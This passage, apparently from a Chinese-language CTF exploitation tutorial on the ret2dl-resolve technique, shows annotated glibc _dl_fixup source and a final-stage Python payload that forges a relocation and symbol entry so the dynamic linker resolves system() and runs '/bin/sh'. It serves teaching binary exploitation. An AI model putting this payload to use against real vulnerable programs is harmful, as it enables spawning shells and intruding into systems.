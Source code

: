 ```c
_dl_fixup (struct link_map *l, ElfW(Word) reloc_arg)
{
    // 通过 JMPREL 和 reloc_offset 算出 reloc 位置
    const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);

    // 通过 reloc->r_info 找到 .dymsym 中对应的条目
    // index = ELF32_R_SYM(reloc->r_info) = (reloc->r_info) >> 8
    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];

    // 检查 r_info 的最低位是否等于 7，即 R_386_JMP_SLOT
    assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);

    // 通过 strtab + sym->st_name 找到符号表字符串，result 为 libc 基地址
    result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope, version, ELF_RTYPE_CLASS_PLT, flags, NULL);

    // value 为 libc 基址加上要解析函数的偏移地址，也即实际地址
    value = DL_FIXUP_MAKE_VALUE (result, sym ? (LOOKUP_VALUE_ADDRESS (result) + sym->st_value) : 0);

    // 最后把 value 写入相应的 GOT 表项中
    return elf_machine_fixup_plt (l, result, reloc, rel_addr, value);
}
```



#### Stage 6

最后一步，把栈上的字符串改成 “system”，并修改 system 函数的参数。

```python
···
cmd = b"/bin/sh"
plt_0 = 0x8048370
rel_plt = 0x8048318
index_offset = (base_stage + 0x1c) - rel_plt
write_got = elf.got['write']

dynsym = 0x80481d8
dynstr = 0x8048268
fake_sym_addr = base_stage + 0x24
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (int(index_dynsym) << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2  = b'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += b'AAAA'
payload2 += p32(base_stage + 80)   # system("/bin/sh")
payload2 += b'AAAA'
payload2 += b'AAAA'
payload2 += fake_reloc
payload2 += b'B' * align
payload2 += fake_sym
payload2 += b"system\x00"
payload2 += b'A' * (80 - len(payload2))
payload2 += cmd + b'\x00'
payload2 += b'A' * (100 - len(payload2))
···
```